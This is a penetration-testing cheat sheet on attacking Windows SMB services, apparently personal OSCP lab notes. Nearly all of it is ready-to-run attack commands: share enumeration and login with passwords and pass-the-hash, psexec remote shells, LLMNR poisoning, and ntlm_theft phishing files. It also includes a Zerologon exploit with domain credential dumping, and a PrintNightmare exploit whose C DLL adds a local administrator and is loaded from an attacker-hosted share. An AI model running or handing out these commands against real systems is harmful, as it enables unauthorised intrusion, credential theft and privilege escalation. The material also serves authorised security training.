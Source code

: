 ### Enumeration
```
enum4linux -a -v 192.168.211.13
enum4linux -a -v -u '' -p '' ip 
nmap --script "smb-vuln*" -p 139,445 ip
```
```
NXC enumerate users:
nxc smb 10.10.11.108 -u '' -p '' --rid-brute
```
![image](https://github.com/user-attachments/assets/fbb53200-b7f1-489d-a5fa-80a576a8e1ab)

### SMB Common Credentials
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0375631b-bc54-4127-b160-d04df1a8538a)

### smb list shares and share permissions
```
smbmap -H 192.168.238.220 -d skylark.com -u backup_service -p It4Server
smbclient -L 192.168.188.222 -U skylark.com/Administrator%MusingExtraCounty98
nxc smb ip -u username -p pwd --shares
```
smb list share with guest account
```
smbmap -H 192.168.200.172 -u guest -p ''
smbmap -H 192.168.200.172 -u guest
smbmap -H 192.168.200.172 -u nobody -p ''
```
smb list shares anonymously
```
smbclient -L //ip | smbclient -L //ip -N 
smbmap -H ip -u anonymous | smbmap -H ip -u anonymous -p ''
nxc smb 10.10.150.236 -u anonymous -p '' --shares
```
### smb connect to share
```
smbclient //172.16.196.13/IPC$(sharename) -U domain/offsec%lab -port
smbclient //192.168.188.222/IPC$ -U skylark.com/Administrator%MusingExtraCounty98
smbclient //10.10.10.192/admin$ -U 'svc_backup' --pw-nt-hash 9658d1d1dcd9250115e2205d9f48400d
```
smb connect share with guest account
```
smbclient //192.168.200.172/DocumentsShare -U vault.offsec/guest
```
smb connect share anonymously
```
smbclient //ip/share
```
### smb download
```
Download directory:
kali: smbget -R smb://192.168.236.249/C$/staging/.git -U relia.com/damon%pass
kali: pth-smbget --dots --recursive -U oscp.exam/web_svc%Diamond1 smb://10.10.77.152/SYSVOL/oscp.exam/scripts

smbclient
1. smbclient //10.10.77.152/SYSVOL -U oscp.exam/web_svc%Diamond1
2. cd to the path where shows the directory that you wanna download
3. prompt off
4. recurse ON
5. mget *
6. type y to all prompts
```
### smb mount
```
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
```
### smb commands
```
get file
put file
pwd
ls
```

### SMB shell 
Require writable Admin share and C share  
Require administrators local group  
Require file and printer Sharing  
Tool: psexec.py  
Shell Type: Interactive Shell  
Required Ports: 445 or SMB  
The typical tool to take advantage of this open port is psexec. But this is a very noisy method. Even though AV evasion is not something to worry about in PEN200 (it is on PEN300) But I still want to point it out. Default Windows AV caught this during my tests. Even though I turned it off for all these demonstrations
```
crackmapexec smb 10.10.139.11 -u backup_service -p It4Server --shares(check if credential has admin right)
kali: impacket-psexec backup_service:It4Server@10.10.139.11
kali: impacket-psexec tom_admin@10.10.118.152 -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc
kali: impacket-smbexec timelapse.htb/administrator:'%A2Aj3d9h3%x-]BXE.gI+l6D'@10.10.11.152
```
### Windows built-in command to list smb shares and map smb share to drive
```
net view \\10.191.21.18
net use F: \\10.191.21.18\testshare
net use S: "\\10.191.21.18\GSP Shared Folder"
```
### Netlogon Share
> Active Directory logon scripts are saved in the NETLOGON share by default

![image](https://github.com/user-attachments/assets/4cfcce22-9f4d-4437-bafd-5d41cda7b208)

### LLMNR/NBT-NS Poisoning through SMB
>OSCP exam only allow Analyze mode by -Av
```
Listener:
sudo responder -I tun0 -v
impacket-smbserver xingdi Desktop -smb2support

Access:
\\IPv4 address\test || //ip/test
```
###### NTLM_THEFT (https://github.com/Greenwolf/ntlm_theft/tree/master):
ntlm_theft is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.
```
Browse to Folder Containing
.url – via URL field
.url – via ICONFILE field
.lnk - via icon_location field
.scf – via ICONFILE field (Not Working on Latest Windows)
autorun.inf via OPEN field (Not Working on Latest Windows)
desktop.ini - via IconResource field (Not Working on Latest Windows)

Open Document
.xml – via Microsoft Word external stylesheet
.xml – via Microsoft Word includepicture field
.htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
.docx – via Microsoft Word includepicture field
.docx – via Microsoft Word external template
.docx – via Microsoft Word frameset webSettings
.xlsx - via Microsoft Excel external cell
.wax - via Windows Media Player playlist (Better, primary open)
.asx – via Windows Media Player playlist (Better, primary open)
.m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
.jnlp – via Java external jar
.application – via any Browser (Must be served via a browser downloaded or won’t run)

python3 ntlm_theft.py -g all -s 192.168.45.172(The IP address of your SMB hash capture server) -f contracts
```
### Zerologon CVE-2020-1472
```
Detect:
nxc smb ip -u username -p pass -M zerologon

Exploit:
python3 cve-2020-1472-exploit.py Monteverde(dc-name) 10.10.10.172(dc-ip)
impacket-secretsdump 'megabank.local'/'Monteverde$'@10.10.10.172 -just-dc -no-pass 
```
### Printnightmare CVE-2021-1675 CVE-2021-34527
```
impacket-smbserver test . -smb2support

#include <stdlib.h>
#include <windows.h> //appened code
//name:myDLL.cpp

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add"); //appened code
  	    i = system ("net localgroup administrators dave2 /add"); //appened code
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}


 x86_64-w64-mingw32-gcc adduser.cpp --shared -o adduser.dll

python3 printnightmare.py -dll '\\10.21.176.25\test\adduser.dll' 'svc-admin:management2005@10.10.211.60'
```

